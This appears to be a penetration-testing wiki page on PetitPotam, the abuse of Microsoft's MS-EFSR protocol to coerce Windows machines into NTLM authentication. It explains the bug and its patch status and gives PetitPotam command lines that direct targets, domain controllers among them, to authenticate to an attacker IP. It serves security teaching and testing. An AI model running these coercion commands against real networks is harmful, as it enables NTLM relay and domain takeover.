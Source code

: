# MS-EFSR abuse (PetitPotam)

## Theory

MS-EFSR is Microsoft's Encrypting File System Remote protocol. It performs maintenance and management operations on encrypted data that is stored remotely and accessed over a network ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-efsr)) and is available as an RPC interface. That interface is available through the `\pipe\efsrpc`, `\pipe\lsarpc`, `\pipe\samr`, `\pipe\lsass` and `\pipe\netlogon` SMB named pipes.

In 2019, Google's Project Zero research team found and reported a bug on MS-EFSR that could be combined with a [NTLM Reflection attack](https://bugs.chromium.org/p/project-zero/issues/detail?id=222) leading to a Local Privilege Elevation. An insufficient path check in MS-EFSR's `EfsRpcOpenFileRaw` method allowed attackers to force the `SYSTEM` account into creating an executable file of the attacker's choosing, hence providing the attacker with local admin rights.

While the wider implications of this bug, AD-DS-wise, were only suspected, in 2021, [Gilles LIONEL](https://twitter.com/topotam77/status/1416833996923809793) used that bug to remotely coerce domain-joined machine's authentication. **The coerced authentications are made over SMB**. But MS-EFSR abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP which heightens [NTLM relay](../ntlm/relay.md) capabilities.

The following MS-EFSR's methods were detected vulnerable

* `EfsRpcOpenFileRaw` and `EfsRpcEncryptFileSrv` ([patched by Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942))
* `EfsRpcEncryptFileSrv`, `EfsRpcDecryptFileSrv`, `EfsRpcQueryUsersOnFile`, `EfsRpcQueryRecoveryAgents`, `EfsRpcRemoveUsersFromFile`, `EfsRpcAddUsersToFile`, `EfsRpcFileKeyInfo`, `EfsRpcDuplicateEncryptionInfoFile`, `EfsRpcAddUsersToFileEx` (unpatched at the time of this article update, 29th December 2021)

## Practice

An authentication can be forced with the original author's proof-of-concepts dubbed "[PetitPotam](https://github.com/topotam/PetitPotam)" (available in C and Python) by using a valid AD account's credentials.

```bash
Petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
```

An alternative Python implementation ([https://github.com/ly4k/PetitPotam](https://github.com/ly4k/PetitPotam)) can be used to exploit other unpatched methods that the original implementation doesn't feature.

```bash
petitpotam.py -method AddUsersToFile $TARGET_IP '\\$ATTACKER_IP\share\foo'
```

{% hint style="info" %}
**Nota bene**: coerced NTLM authentications made over SMB restrict the possibilities of [NTLM relay](../ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMB to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

{% hint style="success" %}
Some tests conducted in lab environments showed that, unlike the [MS-RPRN abuse (printbug)](ms-rprn.md), a NULL session could potentially be used to trigger that bug (if allowed by the target). This has only been verified to be working on on Windows Server 2016 and Windows Server 2019 Domain Controllers.

```bash
Petitpotam.py $ATTACKER_IP $TARGET_IP
```
{% endhint %}

## Resources

{% embed url="https://www.exploit-db.com/exploits/47115" %}

{% embed url="https://github.com/topotam/PetitPotam" %}

{% embed url="https://github.com/ly4k/PetitPotam" %}
&#x20;
{% endembed %}
